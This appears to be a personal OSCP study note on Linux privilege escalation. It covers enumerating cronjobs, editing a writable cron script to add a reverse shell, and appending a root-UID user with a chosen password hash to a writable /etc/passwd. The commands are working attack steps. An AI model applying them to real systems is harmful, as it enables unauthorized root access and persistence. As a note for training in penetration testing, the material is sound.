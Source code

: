 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/9-linux-privilege-escalation/5-insecure-file-permissions/"}
---
```


------------
## Abusing Cronjobs
1. Enumerate cronjobs:
```
# Cronjobs for all users
ls -lah /etc/cron*

#User-created cronjobs for the current user
crontab -l

#Running cronjobs:
grep "CRON" /var/log/syslog
cat /var/log/cron.log
```
2. Inspect running script:
```
cat /home/joe/.scripts/user_backups.sh
```
3. Edit script to add reverse shell. Win!

------
## Abusing /etc/passwd
- Historically hashes could be stored alongside user information in /etc/passwd
- If one can edit /etc/passwd a hash can be placed for a user it takes precedence over /etc/shadow, hence arbitrary password and user change
1. Generate password hash:
```
openssl passwd <arbitrarypassword>
```
2. Echo the hash plus user info into /etc/passwd:
```
echo "<username>:<hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
```
3. Switch user to your new user and provide the password:
```
su <newuser>
```
4. Win!

